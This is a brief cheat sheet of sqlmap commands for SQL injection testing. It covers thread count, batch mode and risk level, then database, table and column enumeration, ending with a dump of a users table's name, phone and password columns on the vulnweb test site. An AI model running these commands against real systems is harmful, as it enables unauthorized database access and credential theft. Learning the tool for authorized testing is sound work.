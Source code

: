 # sqlmap


If you need to save some time, you can increase the number of threads used. Do note that this might affect the results for time-based related test.

> sqlmap -u "url" --threads=10

Batch is using the default option instead of waiting for the user’s input.

> sqlmap -u "url" --batch

You could also increase the risk and level value for sqlmap to test for more payloads.

> sqlmap -u "url" --risk=3 --level=5

Obtain the names of available databases

> sqlmap -u "url" --dbs

Specify the desired database using –D and tell SQLmap to list the tables using –tables command. So, the final SQLmap command will be:

> sqlmap -u 'url' -D db_name --tables

Specify the database using –D, table using – T and columns using –columns:
> sqlmap -u 'url' -D db_name -T table_name –columns

As usual, use –D for database, -T for table, -C for column and –dump for data. The final command to fetch data will appear as shownbelow:

> sqlmap -u 'http://testphp.vulnweb.com/listproducts.php?cat=1' -D acuart -T users -C phone,name,pass --dump

All options on sqlmap page
https://github.com/sqlmapproject/sqlmap/wiki/Usage
